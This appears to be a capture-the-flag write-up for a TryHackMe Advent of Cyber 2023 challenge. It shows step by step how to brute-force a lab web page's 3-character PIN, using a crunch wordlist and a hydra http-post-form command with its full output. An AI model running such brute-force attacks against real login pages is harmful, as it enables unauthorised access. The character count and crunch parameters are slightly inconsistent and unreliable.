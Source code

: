 # [Day 3] Brute-forcing - Hydra is Coming to Town
Everyone was shocked to discover that several critical systems were locked. But the chaos didn’t end there: the doors to the IT rooms and related network infrastructure were also locked! Adding to the mayhem, during the lockdown, the doors closed suddenly on Detective Frost-eau. As he tried to escape, his snow arm got caught, and he ended up losing it! He’s now determined to catch the perpetrator, no matter the cost.

It seems that whoever did this had one goal: to disrupt business operations and stop gifts from being delivered on time. Now, the team must resort to backup tapes to recover the systems. To their surprise, they find out they can’t unlock the IT room door! The password to access the control systems has been changed. The only solution is to hack back in to retrieve the backup tapes.

## Solution
We got a site were we can enter a 3-character PIN code:

![PIN](./images/pin_code.png)

If we enter a wrong PIN we get the following error message:

![Error](./images/error.png)

If we take a look in the source code we see that the input is given to site with a POST request to the URL ending with `/login.php`. The entered data is delivered under the name `pin`:
```html
[...]

<form method="post" action="login.php" class="grid grid-cols-3 max-w-lg mx-auto bg-thm-900 p-4 font-mono">
      <input type="hidden" name="pin" />

[...]
```

We have 16 different characters and can only type in three of them. So there are `16 * 16 * 16` possibilities for the PIN. We can create a wordlist with `crunch` and try to brute force the PIN with `hydra`.

### `crunch`
Crunch can create a wordlist based on criteria that we specify:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ crunch 3 3 012345689ABCDEF > digits.txt
Crunch will now generate the following amount of data: 13500 bytes
0 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 3375 

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ tail digits.txt
FF5
FF6
FF8
FF9
FFA
FFB
FFC
FFD
FFE
FFF

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are:
* `3` minimum length of the generated password
* `3` maximum length of the generated password
* `0123456789ABCDEF` characters to use
* `-o digits.txt` output file

### `hydra`
Hydra is a tool to guess/crack valid login/password pairs. To crack our PIN we can use it like this:
```
┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ hydra -l '' -P digits.txt -f 10.10.192.203 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000                                          130 ⨯
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-04 13:51:55
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3375 login tries (l:1/p:3375), ~211 tries per task
[DATA] attacking http-post-form://10.10.192.203:8000/login.php:pin=^PASS^:Access denied
[8000][http-post-form] host: 10.10.192.203   password: 6F5
[STATUS] attack finished for 10.10.192.203 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 13:53:00

┌──(kali㉿kali)-[~/Desktop/tryhackme/aoc23]
└─$ 
```

The parameters are:
* `-l` '' login name is blank as the security lock only requires a password
* `-P` digits.txt as wordlist
* `-f` stops if it find's a valid password
* `10.10.192.203` IP address of the target
* `http-post-form` HTTP POST
* `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    * `/login.php` is the page where the PIN code is submitted
    * `pin=^PASS^` will replace `^PASS^` with values from the password list
    * `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
* `-s 8000` port number

### Unlock door
As we saw in the `hydra` ouput, the code is `6F5`. If we enter the code we can unlock the door and get the flag:

![Flag](./images/unlocked_door.png)